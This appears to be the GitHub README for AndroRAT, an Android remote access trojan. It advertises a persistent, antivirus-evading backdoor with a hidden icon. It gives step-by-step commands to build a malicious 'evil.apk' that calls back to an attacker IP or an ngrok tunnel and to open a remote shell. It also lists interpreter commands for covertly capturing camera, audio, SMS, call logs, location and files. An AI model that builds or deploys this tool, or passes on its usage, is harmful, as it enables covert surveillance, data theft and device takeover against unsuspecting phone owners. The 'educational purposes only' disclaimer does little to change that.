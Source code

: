 Disclaimer : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
# AndroRAT
AndroRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. Androrat is a client/server application developed in Java Android for the client side and the Server is in Python.
AndroRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

    AndroRAT also works on Android 10 (Q) but some of the interpreter command will be unstable.

Screenshots

AndroRAT
Features of AndroRAT

    Full persistent backdoor
    Fully undetectable by any antivirus scanner VirusTotal
    Invisible icon on install
    Light weight apk which runs 24*7 in background
    App starts automatically on boot up
    Can record audio, video, take picture from both camera
    Browse call logs and SMS logs
    Get current location, sim card details ,ip, mac address of the device

Prerequisites

AndroRAT requires Python3 and JAVA (or Android Studio)
Installation

git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt

Note:

While cloning the repository using Git bash on Windows, you may get the following error:

    error: unable to create file <filename>: Filename too long

This is because the Git has a limit of 4096 characters for a filename, except on Windows when Git is compiled with msys. It uses an older version of the Windows API and there's a limit of 260 characters for a filename.

You can circumvent this by setting core.longpaths to true.

    git config --system core.longpaths true

You must run Git bash with administrator privileges.
Usage (Windows and Linux)

    To get the control panel of the app dial *#*#1337#*#* (For now it has only two options Restart Activity and Uninstall)

    Note: In order to use this feature in some devices you need to enable the option display pop-up windows running in background from the settings.

Available Modes

    --build - for building the android apk
    --ngrok - for using ngrok tunnel (over the internet)
    --shell - getting an interactive shell of the device

build mode

Usage:
  python3 androRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)

Usage:
  python3 androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)

Or you can manually build the apk by importing Android Code folder to Android Studio and changing the IP address and port number in config.java file and then you can generate the signed apk from Android Studio -> Build -> Generate Signed APK(s)
shell mode

Usage:
  python3 androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number

After running the shell mode you will get an interpreter of the device

Commands which can run on the interpreter

    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter

In the sh shell there are some sub commands

    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device

Examples

    To build the apk using ngrok which will also set the listner: python3 androRAT.py --build --ngrok -o evil.apk

    To build the apk using desired ip and port: python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk

    To get the interpreter: python3 androRAT.py --shell -i 0.0.0.0 -p 8000

Interpreter Examples

    Generating APK

------------------------------------------------------------------------------------------------------------------------------

    Some interpreter Commands

------------------------------------------------------------------------------------------------------------------------------
Supporters:

rayep
TODO

    Ngrok support
    Set up multi client
    Add screenshot command

License
AndroRAT is licensed under MIT license take a look at the LICENSE for more information.
